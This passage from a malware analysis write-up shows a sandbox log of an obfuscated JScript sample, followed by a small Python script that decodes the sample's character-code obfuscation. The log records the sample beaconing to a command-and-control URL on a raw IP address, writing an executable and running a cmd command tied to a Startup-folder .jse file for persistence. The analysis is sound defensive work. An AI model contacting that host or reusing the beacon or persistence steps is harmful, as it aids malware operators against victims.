 ```sh
[info] XMLHTTP https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20
[info] IOC: The script opened URL https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20 with XMLHTTP
[info] Header set for https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20:
[info] Data sent to https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20:
[info] POST https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20
[info] IOC: The script fetched an URL.
[info] Returning HTTP 200 (Success) with fake response payload 'console.log("EXECUTED DOWNLOADED PAYLOAD");'
[info] IOC: The script checked to see if a file exists.
[info] IOC: The script checked to see if a file exists.
[info] The sample created a file named 'example-file.exe'.
[info] IOC: The script wrote file 'example-file.exe'.
[info] Saved beautified.js.1.results/5b430cf8-3c84-4093-906b-8bfe2cca604d (3 bytes)
[info] beautified.js.1.results/5b430cf8-3c84-4093-906b-8bfe2cca604d has been detected as ASCII text, with no line terminators.
[info] IOC: The script created a resource.
[info] IOC: The script read a file.
[info] IOC: The script ran the command 'cmd /U /Q /C copy /Y "C:\Users\MyUsername\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp\seter64.jse" ".jse" && del /Q/F ""'.
```

Now let's try out the second methodology of scripting out a deobfuscator for the decoded `.jse` instead of dynamically running it.  

### Making a deobfuscator
Since the whole obfuscation is based on converting from int to char (by also adding number 5), all we need to do is match the expression using regex, add 5 and convert:  
```python
import re
import sys

# Usage: python deobfuscate.py ii_decoded.js
if len(sys.argv) < 2:
    print("Usage: python deobfuscate.py <input_file>")
    sys.exit(1)

input_file = sys.argv[1]

# Regex to match '47' out of return String["fromChar" + "Co" + "" + "de"]((+'47') + 5)
pattern = re.compile(r"\+'([^']*)'")

with open(input_file, 'r', encoding='utf-8') as f:
    for line in f:
        matches = pattern.findall(line)
        for match in matches:
            try:
                val = int(match) + 5
                # Possible values that a byte can have
                if 0 < val <= 255:
                    print(chr(val), end='')
            except ValueError:
                pass
```
